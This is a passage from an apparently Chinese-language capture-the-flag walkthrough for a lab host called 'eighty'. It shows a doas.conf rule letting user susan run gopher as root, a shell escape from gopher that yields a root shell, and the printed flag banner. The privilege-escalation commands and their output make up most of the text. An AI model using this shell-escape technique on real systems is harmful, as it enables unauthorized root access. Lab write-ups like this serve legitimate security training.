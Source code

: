 ```bash
susan@eighty:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
susan@eighty:~$ cat /usr/local/etc/doas.conf
permit nolog susan as root cmd gopher
```
可以发现允许我们使用 `root` 权限执行 `gopher`
```bash
doas -u root gopher
输密码 然后输入！

Spawning your default shell.  Type 'exit' to return to Gopher.

root@eighty:/home/susan# id
uid=0(root) gid=0(root) groups=0(root)
root@eighty:/home/susan# whoami
root
root@eighty:/home/susan#


```

```bash
root@eighty:~# sh fl4g.sh

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,
-------------------------

PWNED HOST: eighty

PWNED DATE: Fri Dec 20 00:01:53 EST 2024

WHOAMI: uid=0(root) gid=0(root) groups=0(root)

FLAG: rooted80shmv

------------------------

```